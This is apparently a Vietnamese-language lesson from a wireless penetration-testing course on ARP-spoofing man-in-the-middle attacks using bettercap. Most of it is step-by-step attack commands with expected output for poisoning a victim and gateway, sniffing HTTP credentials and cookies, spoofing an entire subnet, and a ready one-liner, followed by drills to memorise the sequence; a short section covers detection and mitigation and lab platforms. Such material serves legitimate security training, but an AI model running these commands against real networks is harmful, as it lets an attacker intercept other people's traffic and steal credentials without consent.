

> **Prerequisites**: [[03-evil-twin-wpa2-personal|03. Evil Twin WPA2-Personal]] · [[01-802.11-protocol-internals|01. 802.11 Protocol Internals]]
> **Objectives**:
> - Hiểu cơ chế ARP protocol và tại sao ARP spoofing hoạt động
> - Thực hiện full-duplex ARP poisoning với bettercap
> - Intercept và analyze traffic từ victim
> - Kết hợp với rogue AP để tạo wireless MitM hoàn chỉnh

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Attacker và victim trên **cùng subnet** (Layer 2 broadcast domain)
> - IP forwarding phải được bật trên attacker machine
> - Không có static ARP entries trên victim hoặc gateway
> - Không có Dynamic ARP Inspection (DAI) trên switch

> [!tip] Wireless context
> Sau khi victim connect vào rogue AP (Lesson 03), attacker **đã là gateway** — không cần ARP spoof trong subnet riêng của rogue AP. ARP spoof hữu ích khi attacker join cùng network với victim mà không cần làm rogue AP (ví dụ: cùng WiFi công ty, cùng hotspot).

---

## Cơ chế tấn công

![[img-06-arp-mitm-topology.svg]]
*Hình 1: ARP poisoning — before và after, bettercap commands*

### ARP Protocol và Điểm Yếu

**ARP (Address Resolution Protocol)** là giao thức Layer 2 dùng để map IP address sang MAC address. Khi host A muốn gửi gói đến 192.168.1.1, nó broadcast: *"Ai có IP 192.168.1.1? Trả lời cho AA:BB:CC:11!"*

Vấn đề cơ bản: **ARP không có authentication**. Bất kỳ host nào cũng có thể gửi ARP reply tùy ý, kể cả không có ARP request nào trước đó (Gratuitous ARP). OS cập nhật ARP cache ngay lập tức khi nhận bất kỳ ARP reply nào.

**Gratuitous ARP** — gói ARP reply gửi broadcast, không reply cho request cụ thể. Dùng để announce IP/MAC mới hoặc update ARP cache của neighbors. Attacker lợi dụng điều này để poison ARP cache.

### Full-Duplex ARP Spoofing

Để intercept hoàn toàn, cần poison **cả hai chiều**:

**Poison Victim** — gửi ARP reply giả: *"IP của gateway (192.168.1.1) có MAC là EE:FF:00:99 (của attacker)"*
**Poison Gateway** — gửi ARP reply giả: *"IP của victim (192.168.1.10) có MAC là EE:FF:00:99 (của attacker)"*

Kết quả: toàn bộ traffic victim ↔ gateway đi qua attacker. Với `ip_forward=1`, attacker relay traffic (transparent MitM). Nếu tắt ip_forward, traffic bị drop → DoS.

```
BEFORE: Victim → Gateway (direct)
AFTER:  Victim → Attacker → Gateway (MitM ✓)
        Gateway → Attacker → Victim (MitM ✓)
```

---

## Quy trình tấn công

**Môi trường giả định**: Attacker wlan1 (`192.168.1.50`, MAC `EE:FF:00:99`), Victim (`192.168.1.10`), Gateway (`192.168.1.1`).

### Bước 1 — Enable IP Forwarding

```bash
# PHẢI làm trước — nếu không victim mất internet (DoS)
sudo sysctl -w net.ipv4.ip_forward=1

# Verify
cat /proc/sys/net/ipv4/ip_forward
# Output phải là: 1
```

> **Expected output**: `1` — IP forwarding enabled.

### Bước 2 — Launch Bettercap

```bash
# Start bettercap trên interface của rogue AP hoặc shared network
sudo bettercap -iface wlan1
```

> **Expected output**: Bettercap interactive shell với prompt `>>`.

### Bước 3 — Network Discovery

```bash
# Trong bettercap shell:
net.probe on
```

> **Expected output**: Bettercap gửi UDP probes → `[net.recon] new host: 192.168.1.10 (AA:BB:CC:11) Corp-Laptop`.

```bash
net.show
```

> **Expected output**: Bảng liệt kê tất cả hosts trên subnet với IP, MAC, hostname, vendor.

### Bước 4 — ARP Spoofing

```bash
# Target một victim cụ thể
set arp.spoof.targets 192.168.1.10

# Full-duplex: poison cả victim VÀ gateway
set arp.spoof.fullduplex true

# Bắt đầu poisoning
arp.spoof on
```

> **Expected output**:
> ```
> [arp.spoof] full duplex spoofing enabled
> [arp.spoof] spoofing 192.168.1.10
> [arp.spoof] sending 2 fake arp replies
> ```

### Bước 5 — Traffic Sniffing

```bash
# Enable packet sniffing
net.sniff on

# Verbose mode — hiển thị chi tiết
set net.sniff.verbose true

# Chỉ sniff HTTP credentials
set net.sniff.regexp ".*"
net.sniff on
```

> **Expected output**: Bettercap hiển thị packets realtime — HTTP requests, DNS queries, credentials từ unencrypted protocols.

### Bước 6 — Verify ARP Tables (từ victim)

```bash
# Trên Windows victim (kiểm tra ARP cache bị poison)
arp -a

# Before: 192.168.1.1  GG-HH-II-00-01  dynamic
# After:  192.168.1.1  ee-ff-00-99     dynamic  ← attacker MAC
```

### Bước 7 — Cleanup

```bash
# Stop ARP spoof — ARP cache tự restore sau vài phút
arp.spoof off
net.sniff off
exit

# Reset iptables nếu đã sửa
sudo iptables -F
sudo iptables -t nat -F

# Disable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=0
```

---

## Biến thể & Bypass

### Spoof Toàn Bộ Subnet

```bash
# Không set targets → attack tất cả hosts trên subnet
set arp.spoof.fullduplex true
arp.spoof on
# CẢNH BÁO: Rất noisy, có thể gây network disruption lớn
```

### Passive Mode (Chỉ Observe, Không Poison)

```bash
# Chỉ sniff traffic không modify ARP
net.sniff on
# Chỉ thấy broadcast và traffic hướng về attacker
# Không thấy unicast giữa hai hosts khác
```

### Bettercap One-liner

```bash
# Start với auto-spoofing từ command line
sudo bettercap -iface wlan1 -eval \
    "set arp.spoof.targets 192.168.1.10; \
     set arp.spoof.fullduplex true; \
     arp.spoof on; \
     net.sniff on"
```

### Từ Rogue AP (Không Cần ARP Spoof)

Khi victim kết nối vào rogue AP, attacker **đã** là gateway. Tất cả traffic đi qua attacker machine. Trong trường hợp này chỉ cần:

```bash
# IP forwarding đã bật từ hostapd setup
# Bettercap chỉ cần sniff trên wlan1 interface
sudo bettercap -iface wlan1 -eval "net.sniff on"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Bettercap — ARP Spoofing**

```bash
# Launch
sudo bettercap -iface <INTERFACE>

# Discovery
net.probe on
net.show

# ARP Spoof (single target)
set arp.spoof.targets <VICTIM_IP>
set arp.spoof.fullduplex true
arp.spoof on

# ARP Spoof (entire subnet)
set arp.spoof.fullduplex true
arp.spoof on

# Sniff
net.sniff on
set net.sniff.verbose true

# One-liner
sudo bettercap -iface wlan1 -eval "set arp.spoof.targets TARGET; set arp.spoof.fullduplex true; arp.spoof on; net.sniff on"
```

**System**

```bash
# Enable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=1

# Verify
cat /proc/sys/net/ipv4/ip_forward

# Disable (cleanup)
sudo sysctl -w net.ipv4.ip_forward=0
```

**Verify from victim (Windows)**

```bash
arp -a          # kiểm tra ARP cache
arp -d *        # flush ARP cache (victim defense)
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Bettercap ARP spoof sequence**
Mục tiêu: 5 commands theo đúng thứ tự không nhìn cheatsheet.

```bash
net.probe on
net.show
set arp.spoof.targets 192.168.1.10
set arp.spoof.fullduplex true
arp.spoof on
net.sniff on
```

Luyện cho đến khi: gõ 6 commands trong dưới 20 giây.

**Drill 2 — Explain ARP poison mechanism**
Mục tiêu: giải thích tại sao full-duplex cần poison cả victim lẫn gateway.

Luyện cho đến khi: giải thích rõ trong 60 giây không dùng notes.

**Drill 3 — Bettercap one-liner**

```bash
sudo bettercap -iface wlan1 -eval "set arp.spoof.targets TARGET; set arp.spoof.fullduplex true; arp.spoof on; net.sniff on"
```

Luyện cho đến khi: gõ one-liner đúng hoàn toàn.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Victim-side**: ARP cache có MAC address bất thường cho gateway — kiểm tra `arp -a`.
>
> **Network-side**: Duplicate IP warnings, MAC address mới xuất hiện claim IP của gateway.
>
> **Tools**: XArp, arpwatch — alert khi thấy ARP table thay đổi bất thường.
>
> **SIEM**: Multiple gratuitous ARP packets từ single source, MAC → IP mapping thay đổi.

> [!note] Mitigation
> - **Static ARP entries** cho gateway (hạn chế scalability)
> - **Dynamic ARP Inspection (DAI)** trên Cisco/managed switches
> - **VPN** — mã hóa tất cả traffic, dù MitM thì chỉ thấy encrypted data
> - **HTTPS với HSTS** — ngăn SSL strip ở layer trên
> - **arpwatch** trên server side để detect MAC changes
> - **802.1X** trên switch ports — authenticate trước khi cho phép ARP

---

## Lab Thực hành

| Platform | Machine / Module | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Poison** (Retired) | ARP/DNS poisoning, MitM trong lab environment |
| Local VMs | Kali + Windows Victim + Gateway VM | Full control, test mọi variant |
| HTB Academy | **Wi-Fi Evil Twin Attacks** | Post-connection MitM section sau khi làm Evil Twin |
| TryHackMe | **ARP Spoofing** room | Dedicated practice room nếu cần basics |

---

## Field Manual Entry

> [!abstract] ARP Spoofing (Bettercap) — Quick Reference
> **Điều kiện**: Cùng subnet; ip_forward=1; không có static ARP hoặc DAI
> **Lệnh nhanh**: `sudo bettercap -iface wlan1 -eval "set arp.spoof.targets TARGET; arp.spoof on; net.sniff on"`
> **Full flow**: ip_forward=1 → bettercap → net.probe → set targets → fullduplex=true → arp.spoof on → net.sniff on
> **Look for**: HTTP credentials, cookies, DNS queries trong sniff output
> **Cleanup**: arp.spoof off; ip_forward=0; iptables -F
> **Ref**: [[06-post-connection-mitm-arp|06. Post-Connection MitM — ARP]]
